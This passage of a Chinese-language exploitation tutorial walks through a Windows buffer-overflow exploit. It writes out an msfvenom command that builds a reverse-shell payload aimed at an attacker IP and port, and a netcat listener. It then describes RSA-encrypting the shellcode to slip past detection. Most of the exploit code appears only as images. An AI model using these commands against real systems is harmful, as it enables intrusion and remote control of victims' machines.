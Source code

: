 所以，知道服务器有一个缓冲区溢出后，开发了利用代码，以下是具有正确跳转地址的利用代码：

[![](./img/85711/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01e37935594ecee774.png)

现在有必要添加将被注入到远程系统的shellcode。这是整个过程的微妙部分。生成shellcode必须遵循基本的攻击规则，这不是在本地执行shell，而是由特定端口在攻击者的机器中接收它。为了实现这一点，我们将使用Kali。重要的是要强调，由于使用反向shell，攻击者机器的IP是非常重要的，在这种情况下，攻击者机器的IP是192.168.1.93，反向shell是防火墙的真正专业实现的示例，其中其阻止不在白名单中的任何其他端口，但忽略了不同端口的绑定，本例中为4444：

[![](./img/85711/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01aa5eb00f4de424db.png)

这是将要使用的连接类型——反向Shell。以这样的方式，用于生成此类型的shellcode的命令如下：



```
root@kali:~# msfvenom -a x86 –platform Windows -p windows/shell_reverse_tcp LHOST=192.168.1.93 LPORT=4444 -e
x86/shikata_ga_nai -b ‘x00’ -f python
```

在这一点上要强调的要点是选项-b  x00，其告诉msfvenom的引擎避免这个操作码，因为如果接收到这个操作码，shellcode会突然结束而不继续运行其余的指令。此命令输出特定于此攻击者的shellcode，如下所示：

[![](./img/85711/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01c35e0b6965712d84.png)

这个shellcode将被直接复制到exploit中，如下所示：

[![](./img/85711/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01115909a059a8675b.png)

[![](./img/85711/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t019b14dbdc5a6f285f.png)

完成此项后，在运行之前，我们将需要一个服务器监听端口4444。为了接收连接，使用netcat（nc – nvlp 4444）。我们运行利用代码，应该会在netcat的会话中得到一个shell。这是我们运行利用代码之前的会话：

[![](./img/85711/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01d95639410b041e11.png)

可以观察到，netcat正在监听端口4444，并且利用代码尚未执行，现在，当我们运行利用代码，会发生以下情况：

[![](./img/85711/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01b3591ef6c5cfd72e.png)

我们可以看到，利用代码在处于监听状态的会话中没有产生任何错误。我们在具有有漏洞的服务器用户所有者的执行权限的Windows系统上有一个直接shell。可以看到，在Windows会话中硬盘驱动器是C，这表明入侵已成功。服务器状态保持稳定，即尽管有BoF，仍继续正确操作，指示ASM级别没有检测到问题，执行shellcode并将其发送到指定端口指定的IP地址：

[![](./img/85711/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0109626877aa19aa01.png)

这表明远程Windows利用代码是完全成功的。

现在我们有了在利用代码中测试RSA非对称算法加密的所有元素。此时，现在唯一要做的是使用具有数字3和171的加密程序，并将其放入利用代码中。现在我们将加密原始的shellcode：

[![](./img/85711/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0160d539a39ca17073.png)

完成此项后，我们将具有加密的shellcode的最终字符串复制到最终利用代码中：

[![](./img/85711/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0132f298ef672b8701.png)

[![](./img/85711/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0136ac056f426bd32d.png)



```
expl.send(buffer)
expl.close()
```
